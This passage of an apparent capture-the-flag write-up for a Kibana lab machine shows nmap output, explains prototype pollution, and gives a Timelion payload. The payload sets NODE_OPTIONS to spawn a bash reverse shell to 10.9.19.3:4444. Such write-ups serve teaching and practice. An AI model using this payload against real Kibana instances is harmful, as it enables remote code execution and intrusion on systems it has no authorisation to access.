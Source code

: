 ```

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1025/tcp)
HOP RTT       ADDRESS
1   213.90 ms 10.9.0.1
2   214.06 ms 10.10.153.138

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1014.68 seconds
```

kibana port access: `5601`

## Enumeration

follow the intructions from http://blog.leanote.com/post/snowming/2cd6256df61d and https://blog.csdn.net/whatday/article/details/107879556 about `Prototype pollution` vulnerability

> "Prototype pollution" is an attack method against JS language development. In JS language, every object has its prototype (__proto__), and the prototype has its own prototype object until the prototype of an object is null. And if JS lacks control over the reading and writing of the attributes of the object prototype defined therein, it is easy for an attacker to manipulate some sensitive features, thereby achieving the attacker's purpose.

go to "timelion" > paste this script below to the box> "run"
```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i >& /dev/tcp/10.9.19.3/4444 0>&1\'");//').props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```
![00966349aa35bbf39c497e5a1c9ded44.png](/assets/images/thm-kiba/02.png)


![cc6fc0fb93015ad7ce39558674a709c3.png](/assets/images/thm-kiba/03.png)
